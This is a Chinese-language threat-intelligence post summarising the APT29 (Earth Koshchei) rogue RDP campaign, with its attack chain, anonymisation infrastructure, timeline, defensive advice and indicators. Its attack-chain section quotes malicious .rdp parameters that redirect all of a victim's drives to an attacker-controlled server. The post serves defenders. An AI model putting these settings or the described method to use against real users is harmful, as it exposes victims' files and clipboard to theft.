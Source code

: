 ```yaml
---
date: 2025-08-05T08:54:33+08:00
title: "Earth Koshchei利用红队工具发起复杂RDP攻击"
tags: [APT攻击, 网络安全, 红队工具, 远程桌面协议]
authors: qife
image: "https://www.trendmicro.com/content/dam/trendmicro/global/en/images/icons/icon-news.jpg"
description: "APT组织Earth Koshchei通过鱼叉邮件、红队工具和复杂匿名技术发起大规模恶意RDP攻击，针对政府、军队、智库等高端目标，利用PyRDP中间人工具实现数据窃取。"
---
```


## 攻击概述

Earth Koshchei（又称APT29）在2024年10月发起了一场利用恶意远程桌面协议（RDP）配置文件的攻击活动。该技术借鉴了Black Hills信息安全公司2022年公开的红队方法，包含三个核心组件：
- RDP中继服务器（193个域名）
- 恶意RDP服务器（34个后端节点）
- 诱导受害者连接的.rdp配置文件

## 技术细节

### 攻击链分析
1. **初始访问**：通过鱼叉邮件发送恶意.rdp文件，文件名伪装成"AWS安全存储连接稳定性测试"
2. **连接重定向**：配置文件将受害者导向攻击者控制的服务器，参数包含：
   ```plaintext
   full address: eu-north-1.regeringskansliet-se.cloud
   drivestoredirect: s:*  //重定向所有驱动器
   remoteapplicationprogram: "AWS Secure Storage..." //伪装的应用程序名
   ```
3. **数据窃取**：利用PyRDP工具实现：
   - 自动爬取重定向的驱动器文件
   - 窃取剪贴板内容
   - 无文件驻留（Living-off-the-land）

### 匿名化架构
攻击者采用三层隐匿措施：
1. **网络层**：TOR出口节点+商业VPN+住宅代理（使用90+个IP轮换）
2. **控制通道**：通过SSH over Tor管理基础设施
3. **邮件发送**：入侵5个合法邮件服务器作为发件平台

## 时间线
- **准备阶段**（2024年8-10月）：
  - 注册200+域名（平均每天4-5个）
  - 目标涉及政府（38%）、军事（22%）、云服务商（15%）
- **攻击高峰**：10月22日集中发送钓鱼邮件
- **数据外泄**：10月18-21日观察到军事目标的异常传输

## 防御建议
1. 阻止对外RDP连接到非信任服务器
2. 过滤邮件中的.rdp附件（Trend Micro检测为Trojan.Win32.HUSTLECON.A）
3. 监控异常RDP连接行为
4. 实施网络分段策略

## IOC指标
完整威胁指标包含：
- 193个中继域名（如eu-south-2-aws[.]zero-trust[.]solutions）
- 34个后端服务器IP
- 恶意文件哈希值

> 该攻击展示了APT组织如何武器化红队工具，将原本用于防御测试的技术转化为攻击武器。企业应定期审查对外连接策略，特别是远程访问协议的安全配置。